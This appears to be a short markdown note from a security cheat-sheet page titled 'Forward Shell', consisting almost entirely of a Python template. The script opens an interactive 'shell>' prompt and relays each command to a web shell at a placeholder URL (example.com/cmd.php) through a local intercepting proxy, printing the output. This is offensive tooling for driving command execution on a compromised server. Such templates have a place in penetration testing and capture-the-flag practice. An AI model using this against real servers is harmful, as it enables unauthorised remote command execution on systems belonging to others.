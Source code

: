 ```yaml
---
title: "Forward Shell"
date: 2024-7-11
tags: ["python", "shell", "forward", "template"]
---
```


---
### Python Forward Shell Template

```python
#!/usr/bin/env python3

from cmd import Cmd
import requests

class Term(Cmd):
    prompt = "shell> "

    def default(self, args):
        response = requests.get("http://example.com/cmd.php", params = {"cmd": args}, proxies={"http":"http://127.0.0.1:8080"})
        print(response.text)

term = Term()
term.cmdloop()
```

<br>
